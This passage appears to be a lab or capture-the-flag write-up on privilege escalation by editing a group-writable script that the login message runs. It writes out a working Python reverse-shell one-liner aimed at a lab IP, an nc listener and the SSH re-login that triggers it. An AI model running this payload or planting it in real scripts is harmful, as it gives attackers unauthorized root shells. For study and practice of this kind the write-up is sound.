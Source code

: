 ```bash
groups
users baksteen
```

Now lets looks for files

```bash
find / -type f -name *.sh -group users 2>/dev/null
```

**Found:**

```
/opt/cube/cube.sh
```

If you check /etc/update-motd.d/00-header you'll see that this invoked the cude.sh. Let's nano cube.sh and add the reverse shell TRH gave us, replacing IP for our IP address.

## 🐚 Add Reverse Shell Payload

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.242.74",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### 🛡 Start Listener:

'''bash
nc -nlvp 1234
```
### 🔁 Re-login over SSH

```bash
ssh baksteen@10.10.242.74
```

When the login message executes `cube.sh`, the reverse shell connects back.

---

## 🎉 Root Access Achieved!
